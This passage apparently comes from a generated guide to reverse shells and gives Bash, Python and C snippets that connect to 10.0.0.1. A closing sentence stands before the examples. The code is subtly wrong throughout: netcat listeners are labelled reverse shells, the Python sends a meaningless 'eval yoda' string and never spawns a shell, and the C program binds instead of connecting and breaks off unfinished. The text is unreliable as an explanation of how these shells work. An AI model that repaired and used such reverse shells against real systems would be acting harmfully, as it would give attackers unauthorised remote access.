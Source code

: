 I hope this comprehensive guide helps you understand the concept of a reverse shell, its function, common tools, and security implications. Remember to use reverse shells responsibly and follow best practices to minimize the risks associated with these tools.

**Reverse Shell Code Examples**

---------------------------

Here are some examples of reverse shell code in various programming languages:

**Bash**

1. Simple reverse shell:
```bash
while true; do nc -l 80; done
```

2. Reverse shell with a twist:
```bash
nc -l 80 > /tmp/s; while read line; do echo "shell> "; echo "$line" | nc 10.0.0.1 80; done < /tmp/s
```

**Python**

1. Simple reverse shell:
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.1", 80))
while True:
    s.send(b"shell> ")
    response = s.recv(1024)
    print(response.decode())
```

2. Reverse shell with a twist:
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.1", 80))
while True:
    s.send(b"shell> ")
    response = s.recv(1024)
    print(response.decode())
    s.send(b"eval yoda 'execute('file: /bin/bash')' ")
```

**C**

1. Simple reverse shell:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    int sockfd, sfd;
    struct sockaddr_in servaddr, cliaddr;
    memset(&servaddr, 0, sizeof(struct sockaddr_in));
    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(80);
    if (inet_pton(AF_INET, "10.0.0.1", &(servaddr.sin_addr)) == 1) {
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
        bind(sockfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
        listen(sockfd, 1);
        sfd = accept(sockfd, (struct sockaddr *)&cliaddr, sizeof(cliaddr));
        while(1) {
            read(sfd, buf, 1024);
```